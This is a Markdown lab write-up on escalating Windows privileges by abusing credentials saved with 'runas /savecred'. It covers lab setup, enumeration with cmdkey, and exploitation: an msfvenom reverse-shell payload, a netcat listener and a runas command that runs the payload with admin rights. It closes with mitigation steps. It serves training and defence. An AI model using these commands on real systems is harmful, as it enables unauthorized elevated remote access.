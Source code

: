 # Stored Credentials (Runas)

## Description

The Credentials Manager is a feature in Windows that securely stores usernames and passwords for websites, applications, and network resources. This component is particularly helpful for users who want to manage and retrieve their login information easily without having to remember each set of credentials.

In a scenario where an attacker has compromised an account with access to the Windows Credentials Manager and has obtained stored credentials from an elevated account, he can potentially use the "runas" command to elevate his privileges and gain unauthorized access. 

## Lab Setup

### Manual Lab Setup

1) Open a command-prompt with local Administrator privileges and create a new user with the following command:

```
net user nickvourd Passw0rd! /add
```

2) Add the new user to Administrator's local group:

```
net localgroup "Administrators" nickvourd /add
```

3) Save credentials to Windows Credentials Manager:

```
runas /savecred /user:WORKGROUP\nickvourd cmd.exe
```

Outcome:

![Stored-Creds-Manual-Lab-Setup](/Pictures/Stored-Creds-Manual-Lab-Set-Up.png)

4) Verify the new stored credentials on Windows Credentials Manager (**Control Panel** > **User Accounts** > **Credential Manager**):

![Stored-Creds-Verify-New-Windows-Creds](/Pictures/Stored-Creds-Control-Panel-4.png)

### PowerShell Script Lab Setup

Another way to set up the lab with the 'Stored Credentials (Runas)' scenario is by using the custom PowerShell script named [StoredCredentialsRunas.ps1](/Lab-Setup-Scripts/StoredCredentialsRunas.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\StoredCredentialsRunas.ps1
```

:information_source: Please provide the password generated for the `runas` command.

Outcome:

![Stored-Creds-Tool-Lab-Setup](/Pictures/Stored-Creds-Tool-Lab-Set-Up.png)

## Enumeration

To perform enumeration, you can open a command prompt and use the following command to enumerate the stored credentials in the Windows Credentials Manager:

```
cmdkey /list
```

Outcome:

![Stored-Creds-Enum](/Pictures/Stored-Creds-Enum.png)

## Exploitaion

To abuse this scenario you should follow these steps:

1) Create with msfvenom a malicous executable file (i.e., nikos.exe):

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > nikos.exe
```

2) Transfer the malicious executable file to victim's machine.

3) open a listener from your attacking machine:

```
nc -lvp 1234
```

4) Grant full access permissions to all users:

```
icacls "C:\Windows\Tasks\nikos.exe" /grant Users:F
```

5) Open a command-prompt with regular user privileges and execute the following command:

```
runas /savecred /user:WORKGROUP\nickvourd "C:\Windows\Tasks\nikos.exe"
```

Outcome:

![Stored-Creds-Exploitation-Victim-Side](/Pictures/Stored-Creds-Explotation-1.png)

6) Verify the new reverse shell from your attacking machine:

![Stored-Creds-Exploitation-Attacker-Side](/Pictures/Stored-Creds-Exploitation-2.png)

## Mitigation

To mitigate stored credentials from Windows Credentials manager. Please follow these steps:

1) Open **Control Panel** and navigate **User Accounts** > **Credential Manager**:

![Stored-Creds-Control-Panel](/Pictures/Stored-Creds-Control-Panel.png)

2) Select **Windows Credentials**, choose your preferred stored credentials, and select the **remove** option:

![Stored-Creds-Remove-Creds](/Pictures/Stored-Creds-Control-Panel-2.png)

3) Select the option "Yes" on the pop-up window:

![Stored-Creds-Remove-Creds-Confirmation](/Pictures/Stored-Creds-Control-Panel-3.png)

4) Verify that the stored credentials have been successfully removed from the Windows Credentials Manager:

![Stored-Creds-Remove-Creds-Verification](/Pictures/Stored-Creds-Control-Panel-5.png)
